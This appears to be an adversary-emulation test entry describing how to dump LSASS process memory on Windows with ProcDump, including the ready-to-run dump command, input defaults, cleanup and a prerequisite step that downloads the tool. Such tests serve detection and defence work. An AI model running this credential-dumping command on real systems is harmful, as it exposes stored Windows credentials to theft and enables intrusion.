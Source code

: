 If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the  get-prereq_commands to download and install the ProcDump tool first.

**Supported Platforms:** Windows


**auto_generated_guid:** 7cede33f-0acd-44ef-9774-15511300b24b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;procdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{procdump_exe}" -accepteula -mm lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```




<br/>
<br/>
